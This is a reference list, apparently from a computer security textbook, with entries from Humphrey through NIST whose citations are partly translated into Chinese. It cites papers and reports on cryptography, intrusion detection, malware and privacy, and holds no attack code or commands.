**[HUM88]** Humphrey, W. “Characterizing the Software Process: A Maturity Framework.” *IEEE Software,* v5 n2, 1988 年 3 月, p73–79。

**[ICA07]** ICANN (Internet Corporation for Assigned Names and Numbers). “Root server attack on 6 Feb 2007.” *Fact Sheet,* 2007 年 3 月 1 日。

**[IEE83]** IEEE (Institute of Electrical and Electronics Engineers). *IEEE Standard 729: Glossary of Software Engineering Terminology*. IEEE Computer Society Press, 1983 年。

**[INC14]** Incapsula. “2013–2014 DDoS Threat Landscape Report.” 2014 年。 [`www.incapsula.com/resources/white-papers.html`](http://www.incapsula.com/resources/white-papers.html)

**[INF13]** Information Week News. “Zombie Alert Hoax: Emergency Broadcast System Hacked.” 2013 年 2 月 12 日。

**[ISM10]** ISMP (Institute for Safe Medication Practices). “Baclofen Programming Error with Synchromed II Pump Facility Not Made Aware of Company’s Software Updates.” *ISMP Newsletter,* 2010 年 1 月 28 日。

**[ISO89]** ISO (International Standards Organization). “Information processing systems—Open Systems Interconnection—Basic Reference Model.” *ISO 7498-2,* 1989 年。

**[ISO94]** ISO (Int’l Org for Standardization). *ISO 9001: Model for Quality Assurance*. Int’l Organization for Standardization, 1994 年。

**[JAE06]** Jaeger, T., 等. “Shame in Trust in Distributed Systems.” *IBM Research Report,* RC29364 (W-0605-129), 2006 年 5 月 24 日。

**[JAN11]** Jansen, W., and Grance, T. “Security and Privacy in Public Cloud Computing.” *NIST Special Draft Publication 800-144,* 2011 年 1 月。

**[JAV14]** Javelin Strategy and Research, 2014 Identity Fraud Report, 2014 年 2 月。

**[JOH06]** Johnson, A., and Reust, J. “Network Intrusion Investigation—Preparation and Challenges.” *Digital Investigation,* v3, 2006 年, p118–126。

**[JOH08]** Johnson, [M.] E. 等. “The Evolution of the Peer-to-Peer File Sharing Industry and the Security Risks for Users.” *Proc 41st Hawaii Conf on Sys Sciences,* 2008 年。

**[JOH08a]** Johansson, J., and Grimes, P. “The Great Debate: Security by Obscurity.” *Microsoft Technet Magazine,* 2008 年 8 月 13 日, p48–56。

**[JOH09a]** Johnson, [M.] E. “Data Hemorrhages in the Health-Care Sector.” *Proc Financial Cryptography and Data Security,* 2009 年 2 月。

**[JOH09b]** Johnson, [M.] E. 等. “Laissez-Faire Access Control.” *Proc New Security Paradigms Workshop,* 2009 年。

**[JOH10]** Johnson, J. “Alureon: The First ITW 64-Bit Windows Rootkit.” *Slides from Virus Bulletin Conf,* 2010 年。 [`www.virusbtn.com/pdf/conference_slides/2010/Johnson-VB2010.pdf`](http://www.virusbtn.com/pdf/conference_slides/2010/Johnson-VB2010.pdf)

**[JON00]** Jónatansson, H. “Iceland’s Health Sector Database: A Significant Head Start in the Search for the Biological Grail or an Irreversible Error?” *American Journal of Law and Medicine,* v26 n1, 2000 年, p31–68。

**[JON91]** Jones, T. *Applied Software Measurement*. McGraw-Hill, 1991 年。

**[JUE05]** Juels, A. “RFID Security and Privacy: A Research Study.” *RSA Laboratories white paper,* 2005 年 9 月 28 日。

**[JUN12]** Juniper Networks. “Trusted Mobility Index.” *Web report*, 2012 年 5 月。 [`www.juniper.net/us/en/local/pdf/additional-resources/7100155-en.pdf`](http://www.juniper.net/us/en/local/pdf/additional-resources/7100155-en.pdf)

**[KAH67]** Kahn, D. *The Code-Breakers*. Macmillan, 1967 年。

**[KAH79]** Kahneman, D., and Tversky, A. “Prospect Theory: An Analysis of Decision under Risk.” *Econometrica,* v47, n2, 1979 年, p263–291。

**[KAH96]** Kahn, D. *The Code-Breakers*. Scribners, 1996 年。

**[KAL00]** Kaliski, B. “PKCS #5: Password-Based Cryptography Specification Version 2.0.” *Internet Engineering Task Force Report RFC 2898*, 2000 年 9 月。

**[KAM06]** Kaminsky, D. “Explorations in Namespace: White-Hat Hacking Across the Domain Name System.” *Comm of the ACM,* v49 n6, 2006 年 6 月, p62–68。

**[KAM08]** Kaminsky, D. “Black Ops 2008: It’s the End of the Cache as We Know It.” *Slides from Black Hat 2008,* 2008 年。 [`www.slideshare.net/dakami/dmk-bo2-k8`](http://www.slideshare.net/dakami/dmk-bo2-k8)

**[KAN04]** Kantarcioglu, M., and Clifton, C. “Privacy Preserving Data Mining of Association Rules on Horizontally Partitioned Data.” *Trans on Knowledge and Data Engineering,* v16 n9, 2004 年 9 月, p1026–1037。

**[KAN98]** Kaner, C., and Pils, D. *Bad Software*（《劣质软件》）。Wiley, 1998.

**[KAP92]** Kaplan, R., and Norton, D. The Balanced Scorecard: Measures That Drive Performance（《平衡计分卡：驱动绩效的度量》）。*Harvard Business Review*（《哈佛商业评论》），1992.

**[KAR01]** Karr, M. “Semiotics and the Shakespeare Authorship Debate: The Author—and His Icon—Do Make a Difference in Understanding the Works.”（《符号学与莎士比亚作者身份之争：作者——及其形象——确实影响着对作品的理解》。）*Shakespeare Oxford Newsletter*（《莎士比亚牛津通讯》），v36 n4, Winter 2001.

**[KAR02]** Karger, P., and Schell, R. “Thirty Years Later: Lessons from the Multics Security Evaluation.”（《三十年后：从 Multics 安全评估中汲取的教训》。）Proc Annual Computer Security Conf, 2002.

**[KAR74]** Karger, P., and Schell, R. “MULTICS Security Evaluation: Vulnerability Analysis, vol 2.”（《MULTICS 安全评估：漏洞分析，第 2 卷》。）*Electronic Systems Division Technical Report*（《电子系统部技术报告》），TR-74-193, 1974. csrc.nist.gov/publications/history/karg74.pdf

**[KAR90]** Karger, P., et al. “A VMM Security Kernel for the VAX Architecture.”（《面向 VAX 体系结构的 VMM 安全内核》。）*Proc IEEE Symp on Security & Privacy*（《IEEE 安全与隐私研讨会论文集》），1990, p2–19.

**[KAR91]** Karger, P., et al. “A Retrospective on the VAX VMM Security Kernel.”（《VAX VMM 安全内核回顾》。）*IEEE Trans on Software Engineering*（《IEEE 软件工程汇刊》），v17 n11, Nov 1991, p1147–1165.

**[KAR91a]** Karger, P., and Wray, J. “Storage Channels in Disk Arm Optimization.”（《磁盘臂优化中的存储通道》。）*Proc IEEE Symp on Security & Privacy*（《IEEE 安全与隐私研讨会论文集》），1991, p52–61.

**[KAS11]** Kassner, Michael. “Dropbox: Convenient? Absolutely, but is it secure?”（《Dropbox：方便？绝对方便，但它安全吗？》）。*Tech-Republic*, 13 Jun 2011. <http://www.techrepublic.com/blog/it-security/dropbox-convenient-absolutely-but-is-it-secure/>

**[KAU05]** Kaufman, C., ed. “Internet Key Exchange (IKEv2) Protocol.”（《互联网密钥交换 (IKEv2) 协议》）。*Internet Engineering Task Force Report RFC 4306*（《互联网工程任务组报告 RFC 4306》），Dec 2005.

**[KEM02]** Kemmerer, R., and Vigna, G. “Intrusion Detection: A Brief History and Overview.”（《入侵检测：简史与概述》）。*IEEE Security & Privacy*（《IEEE 安全与隐私》），v1 n1, Apr 2002, p27–30.

**[KEM83]** Kemmerer, R. “Shared Resource Matrix Methodology.”（《共享资源矩阵方法论》）。*ACM Trans on Computing Systems*（《ACM 计算系统汇刊》），v1 n3, Oct 1983, p256–277.

**[KEN03]** Kent, S., and Millett, L. (eds). *Who Goes There? Authentication Through the Lens of Privacy*（《谁在那里？透过隐私的透镜看认证》）。National Academy of Sciences Press, 2003.

**[KEN98]** Kent, S., and Atkinson, R. “Security Architecture for the Internet Protocol.”（《互联网协议的安全架构）。*Internet Engineering Task Force Report RFC 2401*（《互联网工程任务组报告 RFC 2401》），Nov 1998.

**[KEP93]** Kephart, J., et al. “Computers and Epidemiology.”（《计算机与流行病学）。*IEEE Spectrum*（《IEEE 频谱），v30 n5, May 1993, p20–26.

**[KER83]** Kerckhoffs, A. “La Cryptographie Militaire.”（《军事密码学）。*Journale des Sciences Militaires*（《军事科学期刊），v IX, Jan 1883, p5–38.

**[KES10]** Kestner, L. “MCPS to Strengthen Computer Security.”（《MCPS 将加强计算机安全）。*Silver Chips Online* (Montgomery Blair High School Student Newspaper)（蒙哥马利·布莱尔高中学生报），25 Feb 2010.

**[KID98]** Kidwell, P. “Stalking the Elusive Computer Bug.”（《追踪难以捉摸的计算机漏洞）。*IEEE Annals of the History of Computing*（《IEEE 计算史编年史），v20, n4, 1998, p5–9.


### 参考文献

**[KIM98]** Kim, G., and Spafford, E. “Tripwire: A Case Study in Integrity Monitoring.”（《Tripwire：完整性监控案例研究》）。in [DEN98], 1998.

**[KLE90]** Klein, D. “Foiling the Cracker: Survey and Improvements to Password Security.”（《挫败破解者：密码安全调查与改进）。*Proc Usenix Unix Security II Workshop*（《Usenix Unix 安全 II 研讨会论文集》），1990, p5–14.

**[KNI02]** Knight, W. “Anti-Snooping Operating System Close to Launch.”（《防窥探操作系统即将发布）。*The New Scientist*（《新科学家），28 May 2002. <http://www.newscientist.com/news/print.jsp?id-ns99992335#>

**[KNI86]** Knight, J., and Leveson, N. “An Experimental Evaluation of the Assumption of Independence in Multi-Version Programming.”（《多版本程序设计中独立性假设的实验评估）。*IEEE Trans Software Engr*（《IEEE 软件工程汇刊），vSE-21 n1, Jan 1986, p96-109.

**[KNI98]** Knight, E., and Hartley, C. “The Password Paradox.”（《密码悖论）。*Business Security Advisor Magazine*（《商业安全顾问杂志），Dec 1998.

**[KNU02]** Knudsen, L., et al. “On the Design and Security of RC2.”（《论 RC2 的设计与安全性）。*Proc First Fast Software Encryption Workshop* (Springer Lecture notes)（第一届快速软件加密研讨会论文集 [Springer 讲义笔记]），n1372, Springer, Mar 1998, p206–221.

**[KO06]** Ko, M., and Durantes, C. “The Impact of Information Security Breaches on Financial Performance of the Breached Firms: An Empirical Investigation.”（《信息安全漏洞对受害企业财务绩效的影响：实证研究）。*Jl of Info Tech Management*（《信息技术管理期刊），v17, n2, 2006, p13–22.

**[KO13]** Ko, R., et al. “Cloud Computing Vulnerability Incidents: A Statistical Overview.”（《云计算漏洞事件：统计概览）。*Cloud Security Alliance white paper*（《云安全联盟白皮书），13 Mar 2013.

**[KOB87]** Koblitz, N. “Elliptic Curve Cryptosystems.”（《椭圆曲线密码系统）。*Mathematics of Computation*（《计算数学），v48, 1987, p203–208.

**[KOH78]** Kohnfelder, L. “Towards a Practical Public-Key Cryptosystem.”（《迈向实用的公钥密码系统）。*MIT EE Bachelor’s Thesis*（《MIT 电子工程学士论文），1978.

**[KOH93]** Kohl, J., and Neuman, C. “The Kerberos Network Authentication Service (V5).”（《Kerberos 网络认证服务 (V5)）。*Internet Engineering Task Force Report RFC 1510*（《互联网工程任务组报告 RFC 1510），Sep 1993.

**[KOH94]** Kohl, J., et al. “The Evolution of the Kerberos Authentication Process.”（《Kerberos 认证过程的演变）。*Open Distributed Systems*（《开放分布式系统），IEEE Computer Society Press, 1994, p78–94. <ftp://athena-dist.mit.edu/pub/kerberos/doc/krb_evol.PS>

**[KON81]** Konheim, A. *Cryptography, A Primer*（《密码学入门）。Wiley, 1981.

**[KOS09]** Koscher, K., et al. “EPC RFID Tags in Security Applications: Passport Cards, Enhanced Drivers Licenses, and Beyond.”（《安全应用中的 EPC RFID 标签：护照卡、增强型驾照及其他）。*Proc 2009 ACM Conf on Computer and Comm Security*（《2009 年 ACM 计算机与通信安全会议论文集），2009.

**[KOS10]** Koscher, K., et al. “Experimental Security Analysis of a Modern Automobile.”（《现代汽车的实验性安全分析）。*Proc 2010 IEEE Symp Sec and Priv*（《2010 年 IEEE 安全与隐私研讨会论文集），May 2010.

**[KRA05]** Kratkiewicz, K., and Lippman, R. “A Taxonomy of Buffer Overflows for Evaluating Static and Dynamic Software Testing Tools.”（《用于评估静态和动态软件测试工具的缓冲区溢出分类法）。Proc NIST Workshop on Software Security Assurance Tools, Techniques, and Metrics, 7–8 Nov 2005.

**[KRA14]** Kramer, A., et al. “Experimental Evidence of Massive-Scale Emotion Contagion Through Social Networks.”（《通过社交网络进行大规模情绪传染的实验证据）。*Proc Natl Academy of Sciences*（《美国国家科学院院刊），v111, n24, p8788–8790, 2014.

**[KRE07]** Krebs, B. “Cyber-Criminals and Their Tools Getting Bolder, More Sophisticated.”（《网络罪犯及其工具变得更大胆、更复杂）。*Washington Post*（《华盛顿邮报），14 Mar 2007.

**[KRE10]** Krebs, B. “A Peek Inside the Eleonore Browser Exploit Kit.”（《窥探 Eleonore 浏览器漏洞利用工具包内部）。*Krebs on Security*, 2010. <http://krebsonsecurity.com/2010/01/a-peek-inside-the-eleonore-browser-exploit-kit/>

**[KRE14]** Krebs, B. “Complexity as the Enemy of Security.”（《复杂性是安全的敌人）。*Krebs on Security*, 14 May 2014. <http://krebsonsecurity.com/2014/05/complexity-as-the-enemy-of-security/>

**[KUH07]** Kuhn, R., et al. “Border Gateway Protocol Security.”（《边界网关协议安全）。*NIST Special Publication 800-54*（《NIST 特别出版物 800-54），Aug 2007.

**[KUN03]** Kunreuther, H., and Heal, G. “Interdependent Security.”（《相互依存的安全）。*Jl of Risk and Uncertainty*（《风险与不确定性期刊），v26 n3, Mar–May 2003, p231–249.

**[KUR92]** Kurak, C., and McHugh, J. “A Cautionary Note on Image Downgrading.”（《关于图像降密的警示）。*Proc Computer Security Applications Conf*（《计算机安全应用会议论文集），1992, p153–159.

**[LAM03]** Lamos, R. “Damage Control.”（《危机控制/补救措施）。*Cnet News*（《Cnet 新闻），6 Feb 2003. <http://news.cnet.com/2009-1001-983540.html>

**[LAM10]** Lamande, E. “GrIDsure Authenticates Microsoft’s Latest Remote Application Platform.”（《GrIDsure 认证微软最新的远程应用平台）。*Global Security*（《全球安全），27 Apr 2010. <http://www.globalsecuritymag.com/GrIDsure-authenticates-Microsoft-s,20100427,17307.html>

**[LAM71]** Lampson, B. “Protection.”（《保护）。*Proc Princeton Symp*（《普林斯顿研讨会论文集），reprinted in *Operating Systems Review*（《操作系统评论），v8 n1, Jan 1974, p18–24.

**[LAM76]** Lampson, B., and Sturgis, H. “Reflections on an Operating System Design.”（《操作系统设计随想）。*Comm of the ACM*（《ACM 通讯），v19 n5, May 1976, p251–266.

**[LAM82]** Lamport, L., et al. “The Byzantine Generals Problem.”（《拜占庭将军问题）。*ACM Trans on Programming Languages and Systems*（《ACM 编程语言与系统汇刊），v4 n3, Jul 1982, p382–401.

**[LAN11]** Landau, S. *Security or Surveillance: The Risks Posed by New Wiretapping Technologies*（《安全还是监控：新窃听技术带来的风险）。MIT Press, 2011.

**[LAN93]** Landwehr, C., et al. “Computer Program Security Flaws.”（《计算机程序安全缺陷）。*NRL Technical Report*（《NRL 技术报告），Nov 1993.

**[LAR14]** Larsen, P., et al. “Security Through Diversity: Are We There Yet?”（《通过多样性实现安全：我们达标了吗？）。*IEEE Security & Privacy*（《IEEE 安全与隐私），v12 n2, Mar–Apr 2014, p28–33.

**[LAW02]** Lawton, G. “Open Source Security: Opportunity or Oxymoron?”（《开源安全：机遇还是矛盾修饰法？）。*IEEE Computer*（《IEEE 计算机），v35 n3, Mar 2002, p18–21.

**[LEE98]** Lee, W., and Stolfo, S. “Data Mining Approaches for Intrusion Detection.”（《用于入侵检测的数据挖掘方法）。*Proc 1998 7th USENIX Security Symp*（《1998 年第 7 届 USENIX 安全研讨会论文集），1998, p79–94.

**[LEH05]** Lehembre, G. “WiFi Security–WEP, WPA and WPA2.”（《WiFi 安全——WEP、WPA 和 WPA2）。*Internet White Paper*（《互联网白皮书），hakin9.org, Jun 2005.

**[LEV06]** Levine, J., et al. “Detecting and Categorizing Kernel-Level Rootkits to Aid Future Detection.” *IEEE Security & Privacy,* v4 n1, Jan 2006, p24–32.

**[LEV95]** Leveson, N. “Medical Devices: The Therac 25.” *Safeware: Systems Safety and Computers*. Addison Wesley, 1995. [`sunnyday.mit.edu/papers/therac.pdf`](http://sunnyday.mit.edu/papers/therac.pdf)

**[LEX76]** Lexan Corp. “An Evaluation of the DES.” *Unpublished report,* Lexan Corp., Sep 1976.

**[LIB09]** Libicki, M. *Cyberdeterrence and Cyberwar*. RAND Corp., 2009.

**[LIE89]** Liepins, G., and Vaccaro, H. “Anomaly Detection: Purpose and Framework.” *Proc National Computer Security Conf,* 1989, p495–504.

**[LIN99]** Lindqvist, U., and Porras, P. “Detecting Computer and Network Misuse with the Production-Based Expert System Toolset.” *Proc IEEE Symp on Security & Privacy,* 1999, p146–161.

**[LIT02]** Litchfield, D. “Threat Profiling Microsoft SQL Server.” *NGS Software Report,* 20 Jul 2002. [`www.ngssoftware.com/Libraries/Documents/`](http://www.ngssoftware.com/Libraries/Documents/)

**[LIT99]** Litchfield, D. “Alert: Microsoft’s Phone Dialer Contains a Buffer Overflow that Allows Execution of Arbitrary Code.” *NTBugtraq archives,* 30 Jul 1999.

**[LOD13]** Lodderstedt, T. “OAuth 2.0 Threat Model and Security Considerations.” *Internet Engineering Task Force Report RFC 6819*, Jan 2013.

**[LOE01]** Loewenstein, G., et al. “Risk as Feelings.” *Psychological Bulletin,* v127, 2001, p267–286.

**[LOR06]** Lorenzi, R. “Mafia Boss’s Encrypted Messages Deciphered.” *Discovery News,* 17 Apr 2006.

**[LOW14]** Low, A., and Rosenblatt, S. “Serious Security Flaw in OAuth, OpenID Discovered.” *CNET*, 2 May 2014. [`www.cnet.com/news/serious-security-flaw-in-oauth-and-openid-discovered/`](http://www.cnet.com/news/serious-security-flaw-in-oauth-and-openid-discovered/)

**[LUN90]** Lunt, T., et al. “A Real-Time Intrusion Detection Expert System.” *SRI Technical Report,* SRI-CSL-90-05, 1990.


## 参考文献

**[MAL02]** Malin, B., and Sweeney, L. “Compromising Privacy in Distributed Population-Based Databases with Trail Matching: A DNA Example.” *CMU Tech Report CMU-CS-02-189,* Dec 2002.

**[MAN98]** Mann, C. “Who Will Own Your Next Good Idea?” *Atlantic Monthly,* Sep 1998, p57–82.

**[MAR05]** Marin, G. “Network Security Basics.” *IEEE Security & Privacy,* v3 n6, Nov 2005.

**[MAR09]** Markoff, John. “Computer Experts Unite to Hunt Worm.” *New York Times,* 18 Mar 2009.

**[MAR10]** Markoff, J. “Worm Can Deal Double Blow to Nuclear Program.” *New York Times,* 19 Nov 2010.

**[MAR11]** Markoff, J. “Malware Aimed at Iran Hit Five Sites, Report Says.” *New York Times,* 13 Feb 2011.

**[MAR95]** Markoff, J. “How Shimomura Snared Prince of Hackers.” *New York Times,* 28 Feb 1995.

**[MAR98]** Marks, L. *Between Silk and Cyanide*. Free Press, 1998.

**[MAT02]** Matsumoto, T., et al. “Impact of Artificial Gummy Fingers on Fingerprint Systems.” *Proc of SPIE: Optical Security and Counterfeit Detection Techniques IV,* v4677, 2002. [`www.lfca.net/Fingerprint-System-Security-Issues.pdf`](http://www.lfca.net/Fingerprint-System-Security-Issues.pdf)

**[MAY91]** Mayfield, T., et al. “Integrity in Automated Information Systems.” *C Technical Report,* p79–91, Sep 1991.

**[MCA05]** McAfee, Inc. “McAfee Virtual Criminology Report.” *McAfee Report,* Jul 2005. [`www.mcafee.com/us/local_content/misc/mcafee_na_virtual_criminology_report.pdf`](http://www.mcafee.com/us/local_content/misc/mcafee_na_virtual_criminology_report.pdf)

**[MCA14]** McAfee Labs. “McAfee Labs Threats Report, Fourth Quarter 2013.” McAfee Labs report, 2014.

**[MCC01]** McCorkendale, B., and Ször, P. “Code Red Buffer Overflow.” *Virus Bulletin,* Sep 2001, p4–5. [`www.peterszor.com/codered.pdf`](http://www.peterszor.com/codered.pdf)

**[MCC79]** McCauley, E., and Drongowski, P. “KSOS—The Design of a Secure Operating System.” *Proc AFIPS National Computer Conf,* 1979, p345–353.

**[MCG06]** McGrew, R., and Vaughn, R. “Experiences with Honeypot Systems: Development, Deployment and Analysis.” *Proc 39 Hawaii Intl Conf on Sys Sciences,* 2006.

**[MCG10]** McGraw, G., and Arce, I. “Software [In]security: Cyber Warmongering and Influence Peddling.” *InformIT,* 24 Nov 2010.

**[MCG11]** McGowan, J. “Are Fingerprints Unique?” Essential Match, History. 20 Sep 2011. [`math-blog.com/2011/09/20/are-fingerprints-unique/`](http://math-blog.com/2011/09/20/are-fingerprints-unique/)

**[MCM10]** McMillan, Robert. “US Treasury Web Sites Hacked, Serving Malware.” *PCWorld,* 4 May 2010. [`www.pcworld.com/article/195526/us_treasury_web_sites_hacked_serving_malware.html`](http://www.pcworld.com/article/195526/us_treasury_web_sites_hacked_serving_malware.html)

**[MCN06]** McNamara, P. “Congressional aide admits trying to hire hackers—to boost his college GPA.” *Network World,* 21 Dec 2006.

**[MEL11]** Mell, P., and Grance, T. “The NIST Definition of Cloud Computing.” *NIST Draft Special Publication 800-145,* 2011.

**[MEN05]** Menn, J. “Now, Every Keystroke Can Betray You.” *Los Angeles Times,* 18 Sep 2005.

**[MEN10]** Menn, J. *Fatal System Error*. Public Affairs, 2010.

**[MEN13]** Menn, J. “Exclusive: Secret Contract Tied NSA and Security Industry Pioneer.” *Reuters*, 20 Dec 2013. [`www.reuters.com/article/2013/12/20/us-usa-security-rsa-idUSBRE9BJ1C220131220`](http://www.reuters.com/article/2013/12/20/us-usa-security-rsa-idUSBRE9BJ1C220131220)

**[MER80]** Merkle, R. “Protocols for Public Key Cryptosystems.” *Proc IEEE Symp on Security & Privacy,* 1980, p122–133.

**[MER81]** Merkle, R., and Hellman, M. “On the Security of Multiple Encryption.” *Comm of the ACM,* v24 n7, Jul 1981, p465.

**[MIC10]** Microsoft Corp. “Update—Restart Issues After Installing MS10-015 and the Alureon Rootkit.” *Microsoft Security Response Center,* 17 Feb 2010. [`blogs.technet.com/b/mmpc/archive/2010/02.aspx`](http://blogs.technet.com/b/mmpc/archive/2010/02.aspx)

**[MIC10a]** Microsoft Corp. “Essential Software Security Training for the Microsoft SDL.” Apr 2010. [`go.microsoft.com/?linkid=9786235`](http://go.microsoft.com/?linkid=9786235)

**[MIC13]** Microsoft Corp. “Security Advisory 2868725: Recommendation to disable RC4.” *Microsoft TechNet Blogs*, 12 Nov 2013. [`blogs.technet.com/b/srd/archive/2013/11/12/security-advisory-2868725-recommendation-to-disable-rc4.aspx`](http://blogs.technet.com/b/srd/archive/2013/11/12/security-advisory-2868725-recommendation-to-disable-rc4.aspx)

**[MIL10]** Military.com. “Israel Adds Cyber-Attack to IDF.” *web posting,* 10 Feb 2010. [`www.military.com/features/0,15240,210486,00.html`](http://www.military.com/features/0,15240,210486,00.html)

**[MIL13]** Miller, C., and Valasek, C. “Adventures in Automotive Networks and Control Units.” *White paper,* derived from presentation at Defcon13. [`illmatics.com/car_hacking.pdf`](http://illmatics.com/car_hacking.pdf)

**[MIL56]** Miller, G. “The Magical Number Seven, Plus or Minus Two: Some Limits on Our Capacity for Processing Information.” *Psychological Review,* v63, n2, 1956, p81–97.

**[MIL85]** Miller, V. “Uses of Elliptical Curves in Cryptography.” *Proc Crypto 1985,* 1985.

**[MIL88]** Millen, J. “Covert Channel Analysis.” *Unpublished notes,* 1988.

**[MIS02]** Mishra, A., and Arbaugh, W. “An Initial Security Analysis of the IEEE 802.1x Security Standard.” *Univ of Maryland Computer Science Dept Technical Report,* TR-4328, 6 Feb 2002.

**[MIT10]** MITRE Corporation. “2010 CWE/SANS Top 25 Most Dangerous Programming Errors.” *MITRE report,* 2010. [`cwe.mitre.org/top25/archive/2010/2010_cwe_sans_top25.pdf`](http://cwe.mitre.org/top25/archive/2010/2010_cwe_sans_top25.pdf)

**[MIY89]** Miyaguchi, S. “The FEAL-8 Cryptosystem and Call for Attack.” Proc Crypto Conf, 1989, p624–627.

**[MOR77]** Morris, R., et al. “Assessment of the NBS Proposed Data Encryption Standard.” *Cryptologia,* v1 n3, Jul 1977, p281–291.

**[MOR79]** Morris, R., and Thompson, K. “Password Security: A Case History.” *ACM 通讯,* v.22 n11, 1979 年 11 月, p594–597. [`portal.acm.org/citation.cfm?doid=359168.359172`](http://portal.acm.org/citation.cfm?doid=359168.359172)

**[MOR85]** Morris, R. “A Weakness in the 4.2BSD Unix TCP/IP Software.” *AT&T 贝尔实验室计算机科学技术报告,* 117, 1985.

**[MOS03]** Moskowitz, R. “Weakness in Passphrase Choice in WPA Interface.” *互联网发布,* 2003 年 11 月 4 日. [`wifinetnews.com/archives/2003/11/weakness_in_passphrase_choice_in_wpa_interface.html`](http://wifinetnews.com/archives/2003/11/weakness_in_passphrase_choice_in_wpa_interface.html)

**[MUD95]** Mudge (Zatko, P.). “How to Write Buffer Overflows.” *L0pht 报告,* 1995 年 10 月 20 日.

**[MUF92]** Muffett, A. “Crack, A Sensible Password Checker for Unix.” *未出版报告,* 1992. [`www.cert.org/pub/tools/crack`](http://www.cert.org/pub/tools/crack)

**[MUK94]** Muklherjee, B., et al. “Network Intrusion Detection.” *IEEE Network,* 1994 年 5 月–6 月, p26–41.

**[MUL99]** Mulligan, D. “Testimony Before the House Commerce Committee Subcommittee On Telecommunications, Trade, and Consumer Protection.” 1999 年 7 月 13 日. [`cdt.org/files/testimony/990713mulligan.shtml`](https://cdt.org/files/testimony/990713mulligan.shtml)

**[MUR10]** Murdock, S., et al. “Chip and PIN Is Broken.” *2010 年 IEEE 安全与隐私研讨会论文集,* 2010.

**[MUR90]** Murphy, S. “The Cryptanalysis of FEAL-4 with 20 Chosen Plaintexts.” 密码学杂志, v2 n3, 1990, p145–154.

**[MYE79]** Myers, G,. *The Art of Software Testing*. John Wiley, 1979.

**[NAR06a]** Naraine, R. “Return of the Web Mob.” *eWeek,* 2006 年 4 月 10 日.

**[NAR06b]** Naraine, R. “Microsoft Says Recovery from Malware Becoming Impossible.” *eWeek,* 2006 年 4 月 4 日.

**[NAS00]** NASA (National Aeronautics and Space Administration). “MARS Program Assessment Report Outlines Route to Success.” *新闻稿,* 00-46, 2000 年 3 月.


### 参考文献

[NAS07] NASA (National Aeronautics and Space Administration). “Mars Global Surveyor (MGS) Spacecraft Loss of Contact.” *未出版 NASA 白皮书*, 2007 年 4 月 13 日. [`www.nasa.gov/pdf/174244main_mgs_white_paper_20070413.pdf`](http://www.nasa.gov/pdf/174244main_mgs_white_paper_20070413.pdf)

[NBC13] NBC News, “Facebook forensics: What the feds can learn from your digital crumbs,” 2013 年 6 月 8 日. [`host-45.242.54.159.gannett.com/news/article/316460/483/Facebook-forensics-What-the-feds-can-learn-from-your-digital-crumbs`](http://host-45.242.54.159.gannett.com/news/article/316460/483/Facebook-forensics-What-the-feds-can-learn-from-your-digital-crumbs)

[NBS77] NBS (National Bureau of Standards). “Data Encryption Standard.” *联邦信息处理标准*, 46, 1977 年 1 月.

[NCS91a] NCSC (National Computer Security Center). “Integrity-Oriented Control Objectives.” *C 技术报告*, 111-91, 1991 年 10 月.

[NCS91b] NCSC (National Computer Security Center). “A Guide to Understanding Data Remanence.” *NCSC 技术报告*, TG-025 版本 2, 1991 年 9 月.

[NCS93] NCSC (National Computer Security Center). “A Guide to Understanding Covert Channel Analysis of Trusted Systems.” *NCSC 技术报告*, TG-030, 1993 年 11 月.

[NCS95] NCSC (National Comp Sec Center). “Final Evaluation Report: Gemini Trusted Network Processor.” *NCSC 报告*, NCSC-FER-94/34.

[NEU80] Neumann, P., et al. “A Provably Secure Operating System: The System, Its Applications, and Proofs.” *SRI CS 实验室报告 CSL-116*, 1980.

[NEU86] Neumann, P. “On the Hierarchical Design of Computing Systems for Critical Applications.” *IEEE 软件工程汇刊*, vSE-12 n9, 1986 年 9 月, p905–920.

[NEU96] Neumann, P. “Primary Colors and Computer Evidence.” *Risks Digest*, v18 n26, 1996 年 7 月 18 日.

[NGO12] Ngo, D. “Seagate reaches 1Tb per square inch, hard drive to reach 60TB capacity.” *CNet News*, 2012 年 3 月 19 日. [`www.cnet.com/news/seagate-reaches-1tb-per-square-inch-hard-drive-to-reach-60tb-capacity/`](http://www.cnet.com/news/seagate-reaches-1tb-per-square-inch-hard-drive-to-reach-60tb-capacity/)

[NIE09] Nielsen, J. “Stop Password Masking.” *Alertbox 博客*, 2009 年 6 月 23 日. [`www.useit.com/alertbox/passwords.html`](http://www.useit.com/alertbox/passwords.html)

[NIE94] Nielsen, J. “Heuristic Evaluation.” *Usability Inspection Methods*, John Wiley & Sons, Inc., 1994.

[NIS01] NIST (National Institute of Standards and Technology). “Specification for the Advanced Encryption Standard (AES).” *联邦信息处理标准*, 197, 2001.

[NIS05] NIST (National Institute of Standards and Technology). “Recommendations for Key Management: Part 1—General.” *NIST 特别出版物*, 800-57, 2005 年 8 月.

[NIS06] NIST (National Institute of Standards and Technology). “NIST Comments on Cryptanalytic Attacks on SHA-1.” *未出版网络报告*, 2006 年 4 月 25 日. [`www.csrc.nist.gov/pki/HashWorkshop/NIST%20Statement`](http://www.csrc.nist.gov/pki/HashWorkshop/NIST%20Statement)

[NIS06a] NIST (National Institute of Standards and Technology). “Requiring Software Independence in VVSG 2007: STS Recommendations for the TGDC.” *草稿白皮书*, 2006 年 11 月. [`vote.nist.gov/DraftWhitePaperOnSIinVVSG2007-20061120.pdf`](http://vote.nist.gov/DraftWhitePaperOnSIinVVSG2007-20061120.pdf)

[NIS08] NIST (National Institute of Standards and Technology). “Secure Hash Standard.” *联邦信息处理标准*, 180-3, 2008.

[NIS09] NIST (National Institute of Standards and Technology). “Digital Signature Standard.” 联邦信息处理标准, 186-3, 2009 年 6 月.

[NIS11] Nissenbaum, H. “A contextual approach to privacy online,” *Daedalus: The Journal of the American Academy of Arts and Sciences*, v140 n4, 2011 年秋季, p32–48

[NIS13] NIST (National Institute of Standards and Technology). “Digital Signature Standard (DSS).” *联邦信息处理标准*, 186-4, 2013 年 7 月.

[NIS14] NIST (National Institute of Standards and Technology). “SHA-3 Standard: Permutation-Based Hash and Extendable-Output Functions.” *联邦信息处理标准草案*, 202, 2014 年 5 月.

[NIS91] NIST (National Institute of Standards and Technology). “Glossary of Computer Security Terminology.” *NIST 技术报告*, NISTIR 4659, 1991 年 9 月.

[NIS92] NIST (National Institute of Standards and Technology). “The Digital Signature Standard, Proposal and Discussion.” *ACM 通讯*, v35 n7, 1992 年 7 月, p36–54.

